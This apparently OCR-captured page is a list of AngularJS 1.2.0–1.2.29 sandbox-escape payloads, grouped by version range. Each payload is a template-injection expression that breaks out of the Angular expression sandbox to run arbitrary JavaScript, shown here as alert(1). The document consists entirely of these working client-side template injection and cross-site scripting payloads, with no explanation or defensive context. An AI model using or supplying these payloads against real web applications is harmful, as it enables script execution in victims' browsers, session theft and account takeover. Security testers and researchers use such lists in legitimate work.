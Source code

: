   

AngularJS 1.2.24 - 1.2.29

  

```javascript

{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}

```

  

AngularJS 1.2.19 - 1.2.23

  

```javascript

{{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor);}}

```

  

AngularJS 1.2.6 - 1.2.18

  

```javascript

{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(1)')()}}

```

  

AngularJS 1.2.2 - 1.2.5

  

```javascript

{{'a'[{toString:[].join,length:1,0:'__proto__'}].charAt=''.valueOf;$eval("x='"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+"'");}}

```

  

AngularJS 1.2.0 - 1.2.1

  

```javascript

{{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}

```

  
